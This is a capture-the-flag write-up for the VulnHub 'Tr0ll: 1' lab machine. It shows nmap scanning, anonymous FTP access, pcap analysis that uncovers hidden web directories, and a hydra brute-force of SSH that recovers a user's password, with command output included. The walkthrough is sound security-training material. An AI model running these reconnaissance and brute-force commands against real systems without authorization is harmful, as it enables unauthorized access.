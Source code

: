 # Tr0ll: 1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24

Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-17 06:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00042s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.141
Host is up (0.00032s latency).
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00037s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 15.60 seconds
```

The ip address is `192.168.127.141`, let's enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.141 -oN scan

Nmap scan report for 192.168.127.141
Host is up (0.00063s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.127.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:1C:FD:35 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

visit `/robots.txt` of the web page and it shows a disallowed directory :

```text
User-agent:*
Disallow: /secret
```

visiting the above directory has nothing interesting, we take a look at port `21` for `anonymous` login :

```bash
root@kali: ftp 192.168.127.141

Connected to 192.168.127.141.
220 (vsFTPd 3.0.2)
Name (192.168.127.141:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||54900|).
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap
226 Directory send OK.
ftp> 
```

we find from here that file `lol.pcap` is available to download, so download and open it with wireshark

filter for `ftp-data` and you will find the packet wihch contains the secret directory :

![wireshark](https://github.com/Git-K3rnel/VulnHub/assets/127470407/556e5be5-5371-4f56-aafc-d4f58dff2da1)

just go to `sup3rs3cr3tdirlol` directory and there is file here called `roflmao` :

![download](https://github.com/Git-K3rnel/VulnHub/assets/127470407/56f7a830-c9af-4f5f-b2f5-85fd70b04fd7)

get this file and we notice this an executable, just run the program :

```bash
root@kali: ./roflmao

Find address 0x0856BF to proceed
```

it just prints a address of memory, since we have no program here that this executable knows the location already, i guessed

that it might me the actual directory we should navigate in the web site so go to `/0x0856BF` :

![directory](https://github.com/Git-K3rnel/VulnHub/assets/127470407/10cd92b7-4704-48c5-a92e-e5df417f47de)

download the files in these two folders :

```bash
root@kali: wget http://192.168.127.141/0x0856BF/good_luck/which_one_lol.txt

root@kali: wget http://192.168.127.141/0x0856BF/this_folder_contains_the_password/Pass.txt
```

inside the `which_one_lol.txt` file we see a list of users :

```txt
maleus
ps-aux
felux
Eagle11
genphlux
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

and inside `Pass.txt`, it just says `Good_job_:)`

## 3.Gaining Shell

i tried brute forcing the ssh with `Good_job` password but it did not work.

since it is just a crazy and ridiculous machine, i though that the folder `this_folder_contains_the_password` in the web site

we found earlier points to the fact that the name of the file `Pass.txt` is the real password

so i used hydra against the SSH service with `Pass.txt` as the password  :

```bash
root@kali:  hydra -L users.txt -p Pass.txt 192.168.127.141 ssh -V

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-17 07:29:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:10/p:1), ~1 try per task
[DATA] attacking ssh://192.168.127.141:22/
[ATTEMPT] target 192.168.127.141 - login "maleus" - pass "Pass.txt" - 1 of 10 [child 0] (0/0)
[ATTEMPT] target 192.168.127.141 - login "ps-aux" - pass "Pass.txt" - 2 of 10 [child 1] (0/0)
[ATTEMPT] target 192.168.127.141 - login "felux" - pass "Pass.txt" - 3 of 10 [child 2] (0/0)
[ATTEMPT] target 192.168.127.141 - login "Eagle11" - pass "Pass.txt" - 4 of 10 [child 3] (0/0)
[ATTEMPT] target 192.168.127.141 - login "genphlux" - pass "Pass.txt" - 5 of 10 [child 4] (0/0)
[ATTEMPT] target 192.168.127.141 - login "usmc8892" - pass "Pass.txt" - 6 of 10 [child 5] (0/0)
[ATTEMPT] target 192.168.127.141 - login "blawrg" - pass "Pass.txt" - 7 of 10 [child 6] (0/0)
[ATTEMPT] target 192.168.127.141 - login "wytshadow" - pass "Pass.txt" - 8 of 10 [child 7] (0/0)
[ATTEMPT] target 192.168.127.141 - login "vis1t0r" - pass "Pass.txt" - 9 of 10 [child 8] (0/0)
[ATTEMPT] target 192.168.127.141 - login "overflow" - pass "Pass.txt" - 10 of 10 [child 9] (0/0)
[22][ssh] host: 192.168.127.141   login: overflow   password: Pass.txt
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-17 07:29:11
```

yes the user `overflow` has the password `Pass.txt` so we can login to SSH with these credentials.














